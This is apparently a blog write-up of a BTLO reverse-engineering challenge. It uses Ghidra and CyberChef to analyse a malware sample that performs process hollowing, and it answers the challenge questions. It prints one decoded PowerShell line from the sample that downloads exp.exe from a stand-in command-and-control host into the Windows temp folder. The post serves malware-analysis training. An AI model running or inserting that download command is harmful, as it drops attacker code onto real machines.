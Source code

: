 ```yaml
---
layout: post
title: Injection series part 4
date: '2023-10-04 15:09:52 +0800'
cover: img/cover_images/27.png
description: "Reverse engineer the given file and understand the behavior. You can use any disassembler you like to complete this challenge."
categories: [BTLO, Reverse Engineering]
tags: [Reverse Engineering, BTLO, Malware]
---
```


## Injection Series Part 4
Reverse engineer the given file and understand the behavior. You can use any disassembler you like to complete this challenge. 


## Question 1 : What is the process that would be first spawned by the sample? And what is the API used?

I'll be using my favourite reverse engineering tool Ghidra you can use any other tool of your choice.

![img-description](/assets/img/injection-part4/ghidra1.png)

We see the entry function and now we move to the next function

![img-description](/assets/img/injection-part4/ghidra2.png)

We locate the main function by the return value. Since the main function must return something that's how we locate the code that was written by the developer.

![img-description](/assets/img/injection-part4/ghidra3.png)

We are now able to locate the API used and the process first spawned

## Question 2 : The value 4 has been pushed as a parameter to this API, what does that denote? (Format: FLAG)

![img-description](/assets/img/injection-part4/ghidra4.png)

we can see the value 4 passed in CreateFileA Api call so we will do some google search on that function

![img-description](/assets/img/injection-part4/proc.png)

we get the parameter being passed and search it's function

![img-description](/assets/img/injection-part4/getproc.png)

## Question 3: What is the domain that the malware tries to connect? (Format: domain.tld)

We notice a powershell script executed in the code

![img-description](/assets/img/injection-part4/ghidra5.png)

so we try to decode

![img-description](/assets/img/injection-part4/cyberchef.png)

``` bash
Invoke-WebRequest -Uri http://somec2.server/exp.exe -OutFile c:\\windows\\temp\\exp.exe
```
we see the domain from the code

## Question 4: What is the cmdlet used to download the file and what is the path of the file stored? (Format: CMDLET, path) 

We already have all the details from the code in question 3

## Question 5: Just after the file download instructions, a function from ntdll has been loaded and invoked by the sample. What is the function name? (Format: Function)

We can see the function invoked in the code below

![img-description](/assets/img/injection-part4/ghidra6.png)

## Question 6: After the allocation of memory and writing the date into the allocated memory. What are the 2 APIs used to update the entry point and resume the thread? (Format: API, API)

We can see the two APIs being used for threading

![img-description](/assets/img/injection-part4/ghidra7.png)

## Question 7: What is the MITRE ID for this technique implemented in this sample? (Format: TXXXX.XXX)

The malware first executes a process in suspended mode and then allocates some memory and write data into it. After that it resumes the process thread, which allows it to do malicious activities without being detected by antivirus programs. This is called process injection or hallowing

![img-description](/assets/img/injection-part4/mitre.png)
